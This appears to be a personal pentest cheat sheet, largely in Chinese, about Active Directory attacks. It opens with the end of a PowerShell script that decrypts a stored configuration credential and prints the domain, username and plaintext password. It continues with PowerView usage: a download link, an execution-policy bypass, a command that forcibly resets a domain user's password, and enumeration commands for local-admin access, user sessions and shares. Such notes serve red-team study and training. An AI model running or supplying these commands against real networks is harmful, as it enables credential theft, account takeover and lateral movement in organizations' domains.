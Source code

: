 ```
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name ='Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```

## powerview脚本


```
下载：

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

bypass

powershell -ep bypass

导入：
. .\PowerView.ps1

修改账户密码：
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity SMITH（用户名）-AccountPassword $UserPassword -Credential $Cred



常规用法：
查看域内信息：
Get-NetDomain

查看用户信息：
Get-NetUser
Get-NetUser | select cn

查看组：
Get-NetGroup | select cn

查看组成员
Get-NetGroup "Sales Department" | select member

查看主机信息：
Get-NetComputer

！！！！！！！！！！！
查看当前用户可以以管理员登录哪台计算机：
Find-LocalAdminAccess

查看目标计算机登录的用户：
Get-NetSession -ComputerName files04 -Verbose

枚举域共享：
Find-DomainShare
```
